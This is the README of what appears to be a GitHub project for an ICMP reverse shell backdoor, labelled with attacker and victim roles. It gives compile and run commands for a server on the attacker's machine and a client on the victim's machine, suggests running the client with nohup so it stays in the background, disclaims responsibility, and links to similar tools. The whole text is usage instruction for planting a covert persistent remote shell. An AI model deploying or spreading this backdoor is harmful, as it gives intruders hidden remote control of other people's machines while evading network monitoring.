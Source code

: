 # icmp_reverse_shell

# ICMP REVERSE SHELL / BACKDOOR

Hi, hope you are doing well, this project is about reverse shell using icmp, here is how it can be used

# Usage

FIrstly, compile it in your machine


Attacker:
```bash
gcc server.c -o server
```

Victim:
```bash
gcc client.c -o client
```

#### To Run the Server:

```bash
./server <target-ip>
./server 192.168.1.9
```

#### Run the client on victim machine

```bash
./client
```

You can use nohup to put the process in background

```bash
nohup ./client &
```

### Note I'm not responsible for any of your actions,
Be happy.



## References

[ICMPSH](https://github.com/bdamele/icmpsh)

[ICMPSHELL](https://github.com/sin5678/icmp_shell)

[ICMPDOOR](https://github.com/krabelize/icmpdoor)
